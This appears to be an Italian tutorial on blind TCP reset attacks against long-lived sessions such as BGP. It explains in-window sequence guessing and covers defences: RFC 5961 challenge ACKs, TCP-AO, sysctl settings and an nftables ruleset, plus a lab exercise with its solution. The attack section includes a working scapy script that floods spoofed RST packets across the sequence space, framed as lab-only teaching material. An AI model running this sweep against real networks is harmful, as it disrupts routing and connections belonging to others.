

## Perché conta

TCP si fida dei numeri. Un segmento è accettato se l'indirizzo, le porte e il **sequence number** sembrano giusti: non c'è altra autenticazione. Chi riesce a fabbricare un pacchetto plausibile può **resettare** una connessione (`RST`), iniettare dati o, nei casi peggiori, dirottare la sessione. Non serve essere *man in the middle*: basta indovinare.

Il bersaglio ideale sono le sessioni **lunghe e prevedibili**: BGP tra router, trasferimenti di backup, tunnel SSH o VPN su TCP. Un reset ben piazzato su una sessione BGP fa cadere le route, con effetti a cascata (vedi [RTBH e Flowspec]()). Gli attacchi *off-path* sono descritti in [RFC 4953](https://www.rfc-editor.org/rfc/rfc4953); la risposta moderna è [RFC 5961](https://www.rfc-editor.org/rfc/rfc5961).

## Come funziona

Il ricevitore mantiene una **finestra di ricezione** $W$: accetta segmenti con sequence number $s$ tale che

$$RCV.NXT \le s < RCV.NXT + W$$

Prima di RFC 5961 un `RST` con $s$ *qualsiasi dentro la finestra* chiudeva la connessione. Se l'attaccante conosce la quaterna (IP e porte) ma non il sequence number, deve coprire lo spazio a 32 bit a passi di $W$:

$$N_{\text{medio}} \approx \frac{2^{32}}{2W}, \qquad W = 65535 \Rightarrow N \approx 32\,800 \text{ pacchetti}$$

A 100 kpps sono circa 0,3 secondi. Con window scaling ($W$ di diversi MB) il numero scende ancora. Le porte effimere aggiungono entropia ($\sim 2^{14}$–$2^{16}$ valori), ma per le porte note del lato server, come la 179 di BGP, l'attaccante deve indovinare solo la porta del client.



## L'attacco

Con `scapy` un reset *blind* su una sessione di cui conosciamo la quaterna (in lab, nostra) è questione di un ciclo. **Solo su reti di laboratorio** che controlli.

```python
from scapy.all import IP, TCP, send

SRC, DST = "10.0.0.2", "10.0.0.1"   # client, server (lab)
SPORT, DPORT = 40000, 179
WIN = 65535

def sweep():
    for seq in range(0, 2**32, WIN):
        pkt = IP(src=SRC, dst=DST) / TCP(sport=SPORT, dport=DPORT,
                                         flags="R", seq=seq)
        send(pkt, verbose=False)

sweep()
```

Sul server si osserva la chiusura con `ss -tn state established '( dport = :40000 )'` che a un certo punto smette di elencare la connessione. Variante più insidiosa: un `SYN` in finestra su una connessione esistente faceva resettare molte implementazioni; un `ACK` in finestra permetteva di inferire il sequence number (*side channel* sui contatori challenge ACK, scoperto nel 2016, CVE-2016-5696).

## La difesa

**1. RFC 5961, già nel kernel.** Un `RST` è accettato solo con $s = RCV.NXT$ esatto; se è solo *in finestra* il ricevitore risponde con un **challenge ACK** e il vero peer, se voleva davvero resettare, rinvia il `RST` con il numero corretto. Lo spazio di ricerca torna a $2^{32}$ per pacchetto. Il rate limit dei challenge ACK va tenuto, per non creare un canale laterale:

```bash
# /etc/sysctl.d/90-tcp-robust.conf
net.ipv4.tcp_challenge_ack_limit = 1000
net.ipv4.tcp_rfc1337 = 1
net.ipv4.conf.all.rp_filter = 1
```

**2. Autenticare i segmenti.** Per sessioni di routing usa **TCP-AO** ([RFC 5925](https://www.rfc-editor.org/rfc/rfc5925)), che rimpiazza TCP-MD5 con algoritmi moderni e rotazione delle chiavi; in alternativa, GTSM (TTL 255) per limitare la sorgente ai vicini diretti. Per il resto, sposta il traffico sensibile in TLS o in un tunnel ([WireGuard]()): un reset spoofato non rompe uno strato di cifratura, ma interrompe comunque il trasporto sotto, quindi servono timeout e *reconnect* sensati.

**3. Filtri sul perimetro.** Scarta ciò che è invalido e blocca lo spoofing in ingresso ([BCP38]()):

```nft {hl_lines=[6,8,10]}
table inet filter {
  chain input {
    type filter hook input priority 0; policy drop;
    ct state established,related accept
    iif "lo" accept
    ct state invalid drop
    tcp dport 179 ip saddr 10.0.0.2 ip ttl 255 accept
    tcp dport 179 drop
    tcp flags rst ct state new drop
    limit rate 10/second log prefix "tcp-anomaly " counter
  }
}
```

La riga 6 elimina i segmenti fuori stato (RST/ACK senza connessione nota), la 8 chiude la porta BGP a chi non è il peer, la 10 limita il logging per non diventare un vettore di DoS sul log.

## Lab

In un lab containerlab con due nodi e una sessione `nc` persistente tra loro:

1. Avvia `nc -l 5000` sul server e `nc 10.0.0.1 5000` dal client; annota la quaterna con `ss -tni`.
2. Da un terzo nodo lancia lo `sweep()` con `SPORT` e `DPORT` corretti. Quanti pacchetti servono prima del reset? Confrontalo con $N$.
3. Abilita `tcp_challenge_ack_limit` e ripeti, osservando con `tcpdump -ni eth0 'tcp[tcpflags] & tcp-ack != 0'` i challenge ACK. Il reset ha ancora successo?


<details><summary>Soluzione</summary>
<p>Dopo 2) il reset arriva in media dopo circa $2^{32}/(2W)$ pacchetti (decine di migliaia con $W=65535$); il numero esatto varia perché il punto di partenza è casuale. Su un kernel moderno con RFC 5961 il passo 2 <em>non</em> chiude la sessione: il server risponde a ogni RST in finestra con un challenge ACK (limitato da <code>tcp_challenge_ack_limit</code>) e l'attaccante, che non vede il traffico, non può usarlo. Per riuscire dovrebbe indovinare il valore esatto, probabilità $2^{-32}$ per pacchetto. Il lab conferma che la sola protezione di RFC 5961 sposta l'attacco da "secondi" a "praticamente impossibile off-path", e che TCP-AO è comunque necessario contro attaccanti on-path.</p>
</details>


## Conclusione

I reset blind sono un esempio da manuale di come una scelta di progetto del 1981 (accettare qualsiasi `RST` in finestra) diventi una vulnerabilità quando le finestre crescono e la banda aumenta. Oggi il kernel fa già il grosso (RFC 5961), ma per sessioni critiche servono autenticazione (TCP-AO), TTL e filtri anti-spoofing.

**Prossimo nella serie:** un nuovo approfondimento sul perimetro di rete · [Torna alla roadmap]()
